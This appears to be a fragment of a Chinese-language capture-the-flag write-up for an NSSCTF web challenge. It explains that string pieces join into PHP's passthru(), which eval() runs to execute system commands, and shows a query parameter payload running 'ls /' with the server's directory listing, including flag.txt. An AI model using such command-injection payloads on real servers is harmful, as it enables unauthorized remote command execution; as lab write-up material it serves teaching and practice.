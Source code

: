 ![image-20250820070713484](./NSSCTF-6.assets/image-20250820070713484.png)

😭拼接起来是passthru

`passthru()` 会在服务器上执行系统命令，并把结果直接输出。

`eval()` 再去执行 `passthru()` 的返回值（不过 `passthru()` 实际上返回 `NULL`，主要作用是把输出直接显示出来）。

```
?👽=ls /

返回：bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
```
